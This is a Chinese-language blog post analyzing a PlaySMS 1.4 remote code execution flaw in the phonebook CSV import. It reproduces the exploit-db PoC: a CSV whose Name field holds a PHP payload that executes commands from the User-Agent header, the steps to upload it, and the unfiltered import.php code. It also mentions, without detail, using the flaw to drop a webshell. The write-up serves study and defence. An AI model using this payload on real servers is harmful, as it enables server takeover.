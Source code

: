 ```yaml
---
published: true
layout: post
title: PlaySms 1.4代码执行漏洞之import csv
category: Web-Security
tags: 
  - Vulnerability
time: 2017.05.15 20:19:00
excerpt: PlaySms是一个灵活的基于Web的短信平台，可连接短信网关、个人信息系统以及企业的群组通讯工具等。本次爆出的漏洞是1.4版本的另一个代码执行漏洞，该漏洞在exploit-db上有所收录，详情可参考https://www.exploit-db.com/exploits/42044/。

---
```


PlaySms是一个灵活的基于Web的短信平台，可连接短信网关、个人信息系统以及企业的群组通讯工具等。本次爆出的漏洞是1.4版本的另一个代码执行漏洞，该漏洞在exploit-db上有所收录，详情可参考https://www.exploit-db.com/exploits/42044/。

<!--more-->

# PlaySms 1.4代码执行漏洞之import csv
## 官方文案描述
- Exploit标题：PlaySMS 1.4 利用Phonebook import功能(import.php)完成远程代码执行
- Date: 22-05-2017
- 软件链接：Software Link: https://playsms.org/download/
- 版本: 1.4
- Exploit作者：Touhid M.Shaikh
- 联系: http://twitter.com/touhidshaikh22
- 网站: http://touhidshaikh.com/
- 类别：webapps

1. 描述
- 利用import.php完成代码执行
	- 我们知道import.php接受文件并读取内容，它并不会保存到服务器上。但是我们可以将payload保存到backdoor.csv中并上传到phonebook。他会执行我们的代码并显示在返回的页面中（NAME,MOBILE,EMail,Group code,Tags）。
	- 在我的例子中，我保存了漏洞代码在Name backdoor.csv的Name字段。
	- 但仍然有有一个问题。它仅仅执行内置的应用所使用的那些函数和变量。
	- 这就是服务器为什么不直接执行payload的原因。我在name字段使用"<?php $a=$_SERVER['HTTP_USER_AGENT']; system($a); ?>"，修改user agent为任意命令，你就可以执行其命令。因为它不会直接执行<?php system("id")?> 。

使用的backdoor.csv的文件内容：
----------------------MY FILE CONTENT------------------------------------
Name                                                Mobile  Email   Group code  Tags
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>  22         
 
--------------------MY FILE CONTENT END HERE-------------------------------

2. POC
作为一般用户登录（在index.php?app=main&inc=core_auth&route=register创建用户）：

去：http://127.0.0.1/playsms/index.php?app=main&inc=feature_phonebook&route=import&op=list

form如下：
```php
----------------------Form for upload CSV file ----------------------
<form action=\"index.php?app=main&inc=feature_phonebook&route=import&op=import\" enctype=\"multipart/form-data\" method=POST>
" . _CSRF_FORM_ . "
<p>" . _('Please select CSV file for phonebook entries') . "</p>
<p><input type=\"file\" name=\"fnpb\"></p>
<p class=text-info>" . _('CSV file format') . " : " . _('Name') . ", " . _('Mobile') . ", " . _('Email') . ", " . _('Group code') . ", " . _('Tags') . "</p>
<p><input type=\"submit\" value=\"" . _('Import') . "\" class=\"button\"></p>
</form>


-------------Read Content and Display Content-----------------------
  
   case "import":
        $fnpb = $_FILES['fnpb'];
        $fnpb_tmpname = $_FILES['fnpb']['tmp_name'];
        $content = "
            <h2>" . _('Phonebook') . "</h2>
            <h3>" . _('Import confirmation') . "</h3>
            <div class=table-responsive>
            <table class=playsms-table-list>
            <thead><tr>
                <th width=\"5%\">*</th>
                <th width=\"20%\">" . _('Name') . "</th>
                <th width=\"20%\">" . _('Mobile') . "</th>
                <th width=\"25%\">" . _('Email') . "</th>
                <th width=\"15%\">" . _('Group code') . "</th>
                <th width=\"15%\">" . _('Tags') . "</th>
            </tr></thead><tbody>";
        if (file_exists($fnpb_tmpname)) {
            $session_import = 'phonebook_' . _PID_;
            unset($_SESSION['tmp'][$session_import]);
            ini_set('auto_detect_line_endings', TRUE);
            if (($fp = fopen($fnpb_tmpname, "r")) !== FALSE) {
                $i = 0;
                while ($c_contact = fgetcsv($fp, 1000, ',', '"', '\\')) {
                    if ($i > $phonebook_row_limit) {
                        break;
                    }
                    if ($i > 0) {
                        $contacts[$i] = $c_contact;
                    }
                    $i++;
                }
                $i = 0;
                foreach ($contacts as $contact) {
                    $c_gid = phonebook_groupcode2id($uid, $contact[3]);
                    if (!$c_gid) {
                        $contact[3] = '';
                    }
                    $contact[1] = sendsms_getvalidnumber($contact[1]);
                    $contact[4] = phonebook_tags_clean($contact[4]);
                    if ($contact[0] && $contact[1]) {
                        $i++;
                        $content .= "
                            <tr>
                            <td>$i.</td>
                            <td>$contact[0]</td>
                            <td>$contact[1]</td>
                            <td>$contact[2]</td>
                            <td>$contact[3]</td>
                            <td>$contact[4]</td>
                            </tr>";
                        $k = $i - 1;
                        $_SESSION['tmp'][$session_import][$k] = $contact;
                    }
                }
  
------------------------------code ends ---------------------------
```

## 搭建环境测试
exploit-db给的信息依然充足，提供了Exploit的下载，以及包含该漏洞的App。这一漏洞和该作者爆出的前一个漏洞很像，都是十分简单的漏洞，只是出问题的功能（feature）不同。我们依然搭建环境复现一下，再进行进一步的分析与说明。

关于软件环境的搭建以及此前爆出的代码执行漏洞说明，请参考另一篇博客
https://cloudker.github.io/web-security/2017/05/15/PlaySms-1.4%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90

在"MyAccount"菜单下找到"phonebook"，这里允许导入csv格式的文件。

![](/img/posts/Vulnerability/playSms/20170522_1.png)

点击一行小图标的第二个按钮，这就是导入功能:

![](/img/posts/Vulnerability/playSms/20170522_2.png)

依然翻一下页面源码，确定其action提交位置，参数等。

![](/img/posts/Vulnerability/playSms/20170522_3.png)

和上一次遇到的form几乎完全相同。

通过对代码逻辑的跟踪，最终定位到playsms/plugin/feature/phonebook/import.php中：

![](/img/posts/Vulnerability/playSms/20170522_4.png)

可以看到在对case 'import'的处理时，是简单的读出其内容，并填充到定制的表格中，而$content中的表格项又是老问题，直接引用了$contact[i]而没有做任何的过滤，这就导致了代码执行的漏洞。虽然csv文件仅仅仅仅只是在内存中读取，不会保存到服务器，看起来“防止”了后门，然而，命令执行漏洞一旦爆出，后门真的就没有办法制作吗？That's so easy， 简单的echo一句话木马到某个文件中即可。

这里，我们仅仅看一下效果，因为对其使用的csv格式不了解是否有自定义，所以可以先手动增加几个条目，导出到一个csv文件，再改写。

![](/img/posts/Vulnerability/playSms/20170522_5.png)

上传后，执行效果如下：

![](/img/posts/Vulnerability/playSms/20170522_6.png)

当然，其他的几个field也是可以执行的。

## 一点引申的思考
Playsms代码较少，从代码编写中也可以看出其并不成熟，虽然行里行外都能嗅到很多安全的防护代码，但是往往最基本的也是最容易漏掉的问题一个接一个的爆出。这种漏洞是但是对于程序员来说又是极容易忽略的。我们很多时候习惯了Windows系统，认为文件名不能够包含‘<’等特殊字符，但实际上，且不说Linux允许`<?php system('uname -a');die();?>.php`这样的名字，就算都不允许，也可以通过抓包改包的方式（比如fiddler，burpsuite等一干好用的http proxy工具）改掉。从设计的角度来看，对于服务器的程序，要尽量少依赖其他模块的安全，本身做好检查与过滤。

另一方面，由于这个文件不会保存到服务器上，而只是简单的在内存中解析出内容进行后续处理，所以开发者很容易认为这并不危险。但实际上，如果权限足够，比如依然用`system()`命令，此时我不加载人畜无害的`uname -a`而是一个保存一句话木马内容到文件的shell语句，整个服务器也就快沦陷了。

为了防止查水表，后续不可描述的内容就不进行展示了，聪明的人懂得自扩展。
